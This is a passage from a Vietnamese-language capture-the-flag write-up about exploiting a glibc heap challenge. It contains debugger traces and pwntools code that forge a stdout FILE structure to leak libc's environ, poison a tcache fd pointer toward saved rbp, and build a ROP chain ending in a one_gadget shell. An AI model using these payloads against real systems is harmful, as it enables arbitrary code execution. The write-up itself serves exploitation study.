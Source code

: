 - tiếp theo là gọi  ```_IO_do_write```

rdi là stdout , rsi là _IO_write_base , rdx là ```_IO_write_ptr - _IO_write_base```
```cs
 0x7ffff7e1ff3e <_IO_file_overflow+254>    call   _IO_do_write                <_IO_do_write>
        rdi: 0x7ffff7fad780 (_IO_2_1_stdout_) ◂— 0xfbad2887
        rsi: 0x7ffff7fad803 (_IO_2_1_stdout_+131) ◂— 0xfaea70000000000a /* '\n' */
        rdx: 1
        rcx: 0xc00


```
- cuối cùng là 
```
 0x7ffff7e1fa5d <_IO_do_write+173>    call   qword ptr [r14 + 0x78]      <_IO_file_write>
        rdi: 0x7ffff7fad780 (_IO_2_1_stdout_) ◂— 0xfbad2887
        rsi: 0x7ffff7fad803 (_IO_2_1_stdout_+131) ◂— 0xfaea70000000000a /* '\n' */
        rdx: 1
        rcx: 0xc00
```

- nói chung quá trình chi tiết ta cần đọc ở đây [here](https://zenn.dev/t0m3y/articles/d42397182c694d#fsop) , vậy ta sẽ setup như sau :

```python
payload = flat(
        0xfbad1800,        # flags
        libc.sym.environ,  #_IO_read_ptr
        libc.sym.environ,  #_IO_read_ptr
        libc.sym.environ,  #_IO_write_ptr
        libc.sym.environ,   #_IO_write_base
        libc.sym.environ+8, #_IO_write_ptr
        libc.sym.environ+8, #_IO_write_end
        libc.sym.environ+8, #_IO_buf_base
        libc.sym.environ+8, #_IO_buf_end
        )
```

- vậy ta sẽ ghi đè cấu trúc của ```stdout```  , và free() lại 2 chunk lúc nãy , lúc này ta đã có thể ghi tùy ý , ta sẽ tiếp tục malloc lại chunk có size 0x130 để overwrite ```fd``` của chunk kế tiếp nằm trong tcache

```cs
tcachebins
0x110 [  6]: 0x55ecb48c0b20 ◂— 0x70a2de07f
0x140 [  1]: 0x55ecb48c0a10 ◂— 0
```

- nó sẽ trông như sau: 


```cs
free(1)
free(2)

payload2 = flat(
        b'a'*0x108 + p64(0x111) + p64(obfuscate(saved_rbp,heap_base))
        )
pop_rsi = libc.address + 0x0000000000126101
pop_rdi = 0x000000000002a3e5
pop_rdx_rbx = libc.address + 0x0000000000090529

input()
payload3 = p64(heap_base+0x78)
payload3 += p64(pop_rsi) + p64(0)
payload3 += p64(pop_rdx_rbx) + p64(0)*2
payload3 += p64(0xebcf8+libc.address)  #rsi null , rdx null
malloc(5,0x130,payload2)
malloc(6,0x100,b'nothing')
```
